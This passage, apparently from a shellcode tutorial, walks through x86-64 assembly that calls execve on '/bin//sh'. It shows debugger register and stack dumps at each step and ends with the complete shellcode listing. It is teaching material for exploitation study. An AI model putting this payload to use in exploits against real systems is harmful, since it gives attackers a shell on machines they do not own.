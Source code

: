 Then, push the stack pointer, which points to `/bin//sh` and save in `rdi`
At that point:
```
   0x7fffffffdddf                  push   rsp
   0x7fffffffdde0                  pop    rdi
●→ 0x7fffffffdde1                  push   0x3b

 registers ────
$rax   : 0x0               
$rsp   : 0x00007fffffffddf0  →  "/bin//sh"
$rsi   : 0x0               
$rdi   : 0x00007fffffffddf0  →  "/bin//sh"

stack ────
0x00007fffffffddf0│+0x0000: "/bin//sh"     ← $rsp, $rdi
```

Finally, save the syscall number in `rax` before the call
At that point:
```
   0x7fffffffdde1                  push   0x3b
   0x7fffffffdde3                  pop    rax
   0x7fffffffdde4                  cdq    
●→ 0x7fffffffdde5                  syscall 


registers ────
$rax   : 0x3b              
$rsp   : 0x00007fffffffddf0  →  "/bin//sh"
$rsi   : 0x0               
$rdi   : 0x00007fffffffddf0  →  "/bin//sh"


stack ────
0x00007fffffffddf0│+0x0000: "/bin//sh"     ← $rsp, $rdi
```

And it runs! Yay

Here is the shellcode:
```
xor rsi,rsi
push rsi
mov rdi,0x68732f2f6e69622f
push rdi
push rsp
pop rdi
push 0x3b
pop rax
cdq
syscall
```

References available in Appendix
